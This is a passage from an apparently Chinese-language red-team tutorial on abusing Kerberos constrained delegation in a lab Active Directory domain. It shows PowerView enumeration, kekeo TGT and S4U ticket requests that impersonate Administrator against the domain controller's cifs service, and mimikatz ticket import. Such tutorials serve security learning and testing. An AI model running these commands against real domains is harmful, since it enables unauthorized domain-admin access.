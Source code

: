   ![adfind](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/adfind.png)

  服务账户hacker能够被委派访问DC的cifs

+ power-view

  ```shell
  # 导入
  import-module PowerView.ps1
  
  # PowerView查询约束委派机器账户
  powershell Get-DomainComputer -TrustedToAuth -domain redteam.lab -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto|ft -Wrap -AutoSize
  
  # PowerView查询约束委派服务账户
  powershell Get-DomainUser –TrustedToAuth -domain redteam.lab -Properties distinguishedname,useraccountcontrol,msds-allowedtodelegateto|fl
  ```

### 利用

约束性委派攻击的关键就是**获得可转发的服务票据ST**
获取根据约束性委派的执行过程可知，只要**控制配置约束性委派服务的机器，并获得了它的密码**，那么我们就可以劫持这台主机的kerberos请求过程，最终获得任意用户权限的ticket

#### 攻击手法一

利用服务账户/机器账户的票据

这里以hacker为例，服务账户与机器账户的攻击手法基本相同，区别在于机器账户能从本地直接导出所需的TGT,服务账户需要重新申请

+ 通过kekeo向KDC请求可转发的服务TGT

  ```
  tgt::ask /user:hacker /domain:hack.com /password:!qaz@WSX /ticket:hacker.kirbi
  ```

+ 通过tgs::s4u请求目标服务的TGS票据

  ```
  Tgs::s4u /tgt:TGT_hacker@HACK.COM_krbtgt~hack.com@HAKC.COM.kirbi /user:Administrator@hack.com /service:cifs/DC.hack.com
  ```

  ![hacker](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/hacker.png)

+ 通过mimikatz导入该票据

  这里会生成两个票据，其中一个是通过s4uproxy通向DC的cifs服务的，使用该票据

  ![attackway1](https://raw.githubusercontent.com/uu2fu3o/blog-picture/main/tgas/attackway1.png)

导入该票据后成功访问DC的cifs服务 

#### 攻击手法二

使用机器账户/服务账户的hash值

> 利用条件:
>
> Administrator权限
>
> 目标账户配置了约束性委派
